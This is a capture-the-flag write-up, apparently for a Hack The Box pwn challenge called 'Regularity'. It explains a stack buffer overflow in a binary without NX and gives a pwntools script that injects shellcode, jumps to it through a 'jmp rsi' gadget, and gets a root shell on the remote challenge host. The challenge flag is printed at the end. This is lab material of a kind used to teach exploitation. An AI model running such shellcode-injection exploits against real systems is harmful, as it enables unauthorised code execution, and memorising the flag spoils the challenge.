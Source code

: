 # Challenge: Regularity (Pwn)

## Challenge Overview

**Name:** Regularity  
**Category:** Pwn  
**Difficulty:** Very Easy

### Description:

Nothing much changes from day to day. Famine, conflict, hatred – it's all part of the lives we live now. We've grown used to the animosity we experience every day, and that's why it's so nice to have a useful program that asks how I'm doing. It's not the most talkative, though, but it's the highest level of tech most of us will ever see...

---

# Writeup

## Binary Analysis

### Binary Protections

```bash
checksec --file=regularity
````

Output:

* No PIE
* No NX
* No Stack Canary

> Shellcode injection is possible because the **stack is executable** and there’s **no NX protection**.

---

Inside the `_start` function, the program:

* Prints a welcome message using `write()`
* Reads user input using `read()` into the stack
* Writes again, and then executes `jmp rsi` (jump to exit)

```asm
sub rsp, 0x100        ; allocate buffer on stack
read(0, rsp, 0x110)   ; read 0x110 bytes → buffer overflow of 0x10 bytes
```

We can overwrite the return address, and `rsi` points directly to our buffer!

---

## Exploitation Strategy

1. Inject **shellcode** into the buffer (stack)
2. Overwrite the return address with the address of `jmp rsi` (available in the binary)
3. Since `rsi` points to our shellcode, it will jump to and execute it — giving us a shell

---

## Exploit Script

```python
from pwn import *

context.binary = elf = ELF('./regularity', checksec=False)

p = remote('94.237.120.190', 44450)

JMP_RSI = next(elf.search(asm('jmp rsi')))

payload = flat({
    0:      asm(shellcraft.sh()), 
    0x100:  JMP_RSI               
})

p.sendlineafter(b'days?\n', payload)
p.interactive()
```

---

## Flag

After successfully gaining a shell:

```bash
$ whoami
root
$ ls
flag.txt
$ cat flag.txt
HTB{juMp1nG_w1tH_tH3_r3gIsT3rS?_083fcf371598a34f1e45b7aa36ff6576}
```

May god with us~